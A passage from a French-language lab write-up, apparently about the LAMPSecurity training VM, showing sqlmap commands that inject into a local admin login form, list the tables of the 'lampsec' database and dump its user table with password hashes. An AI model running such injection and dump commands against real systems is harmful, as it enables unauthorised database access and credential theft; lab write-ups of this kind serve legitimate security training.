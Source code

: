 ... mais également les tables ```--tables``` de la base de données lampsec ```-D lampsec```...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" -D lampsec --tables
--snip--
[23:03:11] [INFO] fetching tables for database: 'lampsec'
[23:03:11] [INFO] fetching number of tables for database 'lampsec'
[23:03:11] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:03:11] [INFO] retrieved: 5
[23:03:11] [INFO] retrieved: category
[23:03:13] [INFO] retrieved: contact
[23:03:14] [INFO] retrieved: content
[23:03:15] [INFO] retrieved: customers
[23:03:17] [INFO] retrieved: user
Database: lampsec
[5 tables]
+-----------+
| user      |
| category  |
| contact   |
| content   |
| customers |
+-----------+
```

... ou encore toutes les données stockées dans la table ```user``` !

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test" --dump -D lampsec -T user
--snip--
[23:05:45] [INFO] fetching columns for table 'user' in database 'lampsec'
[23:05:45] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[23:05:45] [INFO] retrieved: 6
[23:05:46] [INFO] retrieved: user_id
[23:05:47] [INFO] retrieved: user_name
[23:05:49] [INFO] retrieved: user_password
[23:05:52] [INFO] retrieved: user_display
[23:05:55] [INFO] retrieved: user_picture
[23:05:57] [INFO] retrieved: user_jobtitle
[23:06:00] [INFO] fetching entries for table 'user' in database 'lampsec'
[23:06:00] [INFO] fetching number of entries for table 'user' in database 'lampsec'
--snip--
[23:07:29] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: lampsec
Table: user
[5 entries]
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| user_id | user_name     | user_display       | user_picture | user_jobtitle                 | user_password                    |
+---------+---------------+--------------------+--------------+-------------------------------+----------------------------------+
| 1       | administrator | NULL               | NULL         | NULL                          | dab64765f3d4fc29ced777be274337ea |
| 2       | justin        | Justin Klien Keane | member1.jpg  | Security Researcher           | b6e4e4d617ec2406cea4555a5c40e137 |
| 3       | bob           | Bob Anonymous      | bob_anon.jpg | Privacy Specialist            | 93b542f0c7a6f2279fc94f44b013baf1 |
```
